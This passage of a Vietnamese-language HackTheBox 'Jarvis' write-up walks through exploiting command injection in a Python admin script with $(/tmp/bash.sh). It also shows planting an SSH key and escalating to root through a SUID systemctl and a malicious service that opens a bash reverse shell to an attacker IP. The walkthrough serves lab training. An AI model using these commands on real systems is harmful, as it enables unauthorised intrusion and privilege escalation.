            ip2 = i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3]
        if int(level2) > int(level_1):
            level_1 = level2
            ip_list = [ip]
            reks=[rek]
        elif int(level2) == int(level_1):
            ip_list.append(ip)
            reks.append(rek)
        f.close()
	
    print('Most Risky:')
    if len(ip_list) > 1:
        print('More than 1 ip found')
    cont = 0
    for i in ip_list:
        print('    ' + i + ' - Attack Level : ' + level_1 + ' Request: ' + reks[cont])
        cont = cont + 1
	
    print('Most Recent: ' + ip2 + ' --> ' + str(dat) + ' ' + req)
	
def list_ip():
    print('Attackers\n-----------')
    path = '/home/pepper/Web/Logs/'
    listed_files = listdir(path)
    for i in listed_files:
        f = open(path + i,'r')
        lines = f.readlines()
        level,req = get_max_level(lines)
        print(i.split('.')[0] + '.' + i.split('.')[1] + '.' + i.split('.')[2] + '.' + i.split('.')[3] + ' - Attack Level : ' + level)
        f.close()

def date_to_num(lines):
    dat = datetime(1,1,1)
    ip = ''
    req=''
    for i in lines:
        if 'Level' in i:
            fecha=(i.split(' ')[6] + ' ' + i.split(' ')[7]).split('\n')[0]
            regex = '(\d+)-(.*)-(\d+)(.*)'
            logEx=re.match(regex, fecha).groups()
            mes = to_dict(logEx[1])
            fecha = logEx[0] + '-' + mes + '-' + logEx[2] + ' ' + logEx[3]
            fecha = datetime.strptime(fecha, '%Y-%m-%d %H:%M:%S')
            if fecha > dat:
                dat = fecha
                req = i.split(' ')[8] + ' ' + i.split(' ')[9] + ' ' + i.split(' ')[10]
    return dat, req
			
def to_dict(name):
    month_dict = {'Jan':'01','Feb':'02','Mar':'03','Apr':'04', 'May':'05', 'Jun':'06','Jul':'07','Aug':'08','Sep':'09','Oct':'10','Nov':'11','Dec':'12'}
    return month_dict[name]
	
def get_max_level(lines):
    level=0
    for j in lines:
        if 'Level' in j:
            if int(j.split(' ')[4]) > int(level):
                level = j.split(' ')[4]
                req=j.split(' ')[8] + ' ' + j.split(' ')[9] + ' ' + j.split(' ')[10]
    return level, req
	
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)

if __name__ == '__main__':
    show_header()
    if len(sys.argv) != 2:
        show_help()
        exit()
    if sys.argv[1] == '-h' or sys.argv[1] == '--help':
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```
Nhìn qua ta thấy có một bug như sau: Ở hàm `exec_ping` thì có thực hiện một lệnh `os.system` ta có thể bypass forbidden và trigger nó bằng option `-p`.
Đẩy file `bash.sh` vào client:
```bash
Terminal Attacker:
python3 -m http.server 80
Terminel Client:
wget 10.10.15.221/bash.sh
```
Thực thi script:
```bash
www-data@jarvis:/tmp$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(/tmp/bash.sh)               
```
Lấy shell thành công!
```
$nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.129.229.137 49472
pepper@jarvis:/tmp$ 
```
## Privilege: pepper -> root
Trick lỏ ssh để tiện trong quá trình priv: kiểm tra xem user `pepper` có shell hợp lệ không?
```bash
pepper@jarvis:~$ cat /etc/passwd | grep pepper
pepper:x:1000:1000:,,,:/home/pepper:/bin/bash
```
Setup **SSH key authentication**:
```bash
Attacker Terminal
#ssh-keygen -f pepper -N ""
#cat pepper.pub
#chmod 600 pepper
Client Terminal
#mkdir /home/pepper/.ssh
#chmod 700 /home/pepper/.ssh
#cd /home/pepper/.ssh
#echo -n 'paste content of pepper.pub' > authorized_keys
#chmod 600 authorized_key
Attacker Terminal
#ssh -i pepper pepper@10.129.229.137
The authenticity of host '10.129.229.137 (10.129.229.137)' can't be established.
ED25519 key fingerprint is SHA256:GaSWjdBVIx1lUfM+vIvARm9dArCqI6Cbk/IXmDpPFHc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.229.137' (ED25519) to the list of known hosts.
Linux jarvis 4.9.0-19-amd64 #1 SMP Debian 4.9.320-2 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 10 09:53:15 2023 from 10.10.14.23
pepper@jarvis:~$ 
```
Mình kiểm tra xem quyền sudo nhưng `sudo -l` không phản hồi gì cả nên thay vào đó mình tìm kiếm những file có **SUID bit** được set:
```bash
pepper@jarvis:~$ find / -perm -4000 -ls 2>/dev/null
     3969     32 -rwsr-xr-x   1 root     root        30800 Aug 21  2018 /bin/fusermount
     3827     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount
     3924     60 -rwsr-xr-x   1 root     root        61240 Nov 10  2016 /bin/ping
     9420    172 -rwsr-x---   1 root     pepper     174520 Jun 29  2022 /bin/systemctl
     3828     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount
     3774     40 -rwsr-xr-x   1 root     root        40536 Mar 17  2021 /bin/su
     3779     40 -rwsr-xr-x   1 root     root        40312 Mar 17  2021 /usr/bin/newgrp
    16679     60 -rwsr-xr-x   1 root     root        59680 Mar 17  2021 /usr/bin/passwd
    16678     76 -rwsr-xr-x   1 root     root        75792 Mar 17  2021 /usr/bin/gpasswd
    16676     40 -rwsr-xr-x   1 root     root        40504 Mar 17  2021 /usr/bin/chsh
    15178    140 -rwsr-xr-x   1 root     root       140944 Jan 23  2021 /usr/bin/sudo
    16675     52 -rwsr-xr-x   1 root     root        50040 Mar 17  2021 /usr/bin/chfn
    23972     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
    32974    432 -rwsr-xr-x   1 root     root       440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
      289     44 -rwsr-xr--   1 root     messagebus    42992 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
Trong danh sách trả về, `/bin/systemctl` nổi bật với permission `rwsr-x---` và group là `pepper` — khác hoàn toàn so với các file còn lại đều là `root:root`. Điều này có nghĩa là **chỉ user thuộc group `pepper` mới chạy được**, nhưng khi chạy thì process sẽ được thực thi với quyền `root` do SUID. Đây là file có khả năng để chúng ta privilege.

Xem trên trang GTFObins thì có tồn tại cách hướng dẫn priv file systemctl.

Payload priv:
```bash
# Located at /home/pepper
pepper@jarvis:~$ cat bash.sh 
bash -i >& /dev/tcp/10.10.15.221/5555 0>&1
pepper@jarvis:~$ cat priv.service
[Service]
Type=oneshot
ExecStart=/bin/bash /home/pepper/bash.sh
[Install]
WantedBy=multi-user.target
pepper@jarvis:~$ systemctl link /home/pepper/priv.service 
Created symlink /etc/systemd/system/priv.service → /home/pepper/priv.service.
pepper@jarvis:~$ systemctl enable --now /home/pepper/priv.service
Created symlink /etc/systemd/system/multi-user.target.wants/priv.service → /home/pepper/priv.service.
```
Leo root thành công!
```bash
 $nc -lnvp 5555
Listening on 0.0.0.0 5555
Connection received on 10.129.229.137 44196
bash: cannot set terminal process group (2624): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# cat root/root.txt
```

## References
[1] https://0xdf.gitlab.io/2019/11/09/htb-jarvis.html


[2] https://www.youtube.com/watch?v=YHHWvXBfwQ8
